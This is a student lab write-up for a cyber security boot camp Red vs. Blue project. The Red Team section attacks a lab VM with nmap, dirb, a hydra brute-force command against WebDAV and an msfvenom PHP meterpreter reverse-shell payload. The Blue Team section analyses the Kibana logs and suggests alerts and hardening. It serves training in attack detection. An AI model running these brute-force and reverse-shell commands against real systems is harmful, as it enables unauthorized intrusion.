 # UCLA Cyber Security Boot Camp Project II - Red vs. Blue Engagement
## by Kurt Anderson

In this project I will work on a Red Team vs. Blue Team scenario in which I will play the roles of both Pentester and Security Operations Center Analyst.

![Network Topology](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/Project2Topology.png)

As the Red Team, I will attack a vulnerable VM within my created virtual environment, ultimately gaining root access to the machine.
As the Blue Team, I will use Kibana to review logs taken during the Red Team engagement. I will then use the logs to extract hard data and visulaizations for my report, using it to interpret my log data to suggest mitigation measures for each exploit that I've successfully performed as a Pentester.

Day 1 Activity File: Red Team

Complete the following to find the flag:

●	Discover the IP address of the Linux web server.

Command:
	
	nmap -v 192.168.1.0/24 
  
  ![nmap scan of 192.168.1.0/24](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/nmap_scan.jpg)
  
IP address found:
  
	192.168.1.90
	
●	Locate the hidden directory on the web server.

I used dirb to enumerate any directories and identify the hidden folder.

![dirb directory enumeration](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/dirb_enumeration.jpg)
 
●	Brute force the password for the hidden directory using the hydra command:

![Hydra Brute Force](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/hydra.jpg)

Using the username and password I was able to log into the host and found a Personal Note:

Command:

	hydra -l ashton -P /usr/share/wordlists/rockyou.txt webdav://192.168.1.90:80/

![Personal Note:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/personal_note.jpg)

●	Break the hashed password with the Crack Station website or John the Ripper.
 
![Cracked Password:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/cracked_password.jpg)

●	Connect to the server via WebDav.

![WebDAV Credentials](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_login.PNG)

●	Upload a PHP reverse shell payload.
Command: 

	msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 raw > reverse_shell.php

![Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/msvenom.jpg)
![WebDAV File Manager](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_reverse_shell.jpg)
![WebDAV Browswer](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_upload.jpg)
 
●	Execute the payload that you uploaded to the site to open up a meterpreter session.

![Exploit Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/payload.jpg)
![Exploitation](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/exploitation.jpg)

●	Find and capture the flag.

![Flag Found](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/meterpreter.jpg)


Day 2 Activity File: Incident Analysis with Kibana

 
After creating your dashboard and becoming familiar with the search syntax, use these tools to answer the questions below:

1.	Identify the offensive traffic.
![Dashboard](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/Kibana_analysis.PNG)

○	Identify the traffic between your machine and the web machine:

	■	When did the interaction occur?

		The interaction occurred on 2021-12-14 03:00

	■	What responses did the victim send back?

		200, 207, 401, 404, 206, 304, 301

	■	What data is concerning from the Blue Team perspective?

		The status code ‘OK’ signifying that there was a completed request from the source IP and a response from the destination IP
 

2.	Find the request for the hidden directory.

○	In your attack, you found a secret folder. Let's look at that interaction between these two machines.

	■	How many requests were made to this directory? At what time and from which IP address(es)?

		There were 16,721 requests made to the directory /secret_folder, at 03:45 from the IP address 192.168.1.90.

	■	Which files were requested? What information did they contain?

		The file that was requested is the reverse_shell.php file

	■	What kind of alarm would you set to detect this behavior in the future?

		To detect this behavior in the future, I would set an alert to send an email with a high priority to notify the SOC that this type of request was made to access confidential company folders and data. 

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

		One way to harden the vulnerable machine that would mitigate this attack would be to ensure that the device has been updated and patched regularly in order to mitigate the exploitation of common system vulnerabilities.

3.	Identify the brute force attack.

○	After identifying the hidden directory, you used Hydra to brute-force the target server. Answer the following questions:
	
	■	Can you identify packets specifically from Hydra?

		Yes, by searching the ‘user_agent.original” field. 

	■	How many requests were made in the brute-force attack?

		There were 16,711 requests
 
	■	How many requests had the attacker made before discovering the correct password in this one?

		It appears that there were 16,711 requests before the correct password was discovered.
 

	■	What kind of alarm would you set to detect this behavior in the future and at what threshold(s)?

		I would set an alert to email the SOC that the login threshold has been surpassed in a certain amount of time. 


	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
		
		Upon searching through the logs it appeared that most of these requests happened through port 80 on the target machine, so I would suggest to place a firewall to filter out packets coming from outdated user agents like Mozilla 4.0, or close port 80 entirely.
	
4.	Find the WebDav connection.

○	Use your dashboard to answer the following questions:

	■	How many requests were made to this directory?

		209 requests were made to the 192.168.1.105/webdav/ directory.
 

	■	Which file(s) were requested?

		XML files were requested, based on the HTTP request method ‘propfind’, and the status code of 207, which is a response used by webdav servers.

	■	What kind of alarm would you set to detect such access in the future?

		An alarm to alert the SOC of any PROPFIND requests for Webdav.

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

		One way to harden the vulnerable machine from PROPFIND is to use multi-factor authentication to help prevent brute-force attacks on webdav logins.

5.	Identify the reverse shell and meterpreter traffic.

○	To finish off the attack, you uploaded a PHP reverse shell and started a meterpreter shell session. Answer the following questions:
	
	■	Can you identify traffic from the meterpreter session?
 
		There was a spike in activity from the source IP address 192.168.1.90, which potentially shows that the target machine 192.168.1.105 had been breached, since they share similar patterns in activity. 

	■	What kinds of alarms would you set to detect this behavior in the future?
		
		An alert that has a minimum threshold of packet traffic to alert the SOC of any spikes in activity, and is monitored every hour. 

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
		
		In order to harden the vulnerable machine to mitigate this attack, I suggest that we require authentication in order to upload files to the webdav server, as well as defining the valid file extension types allowed on the server.
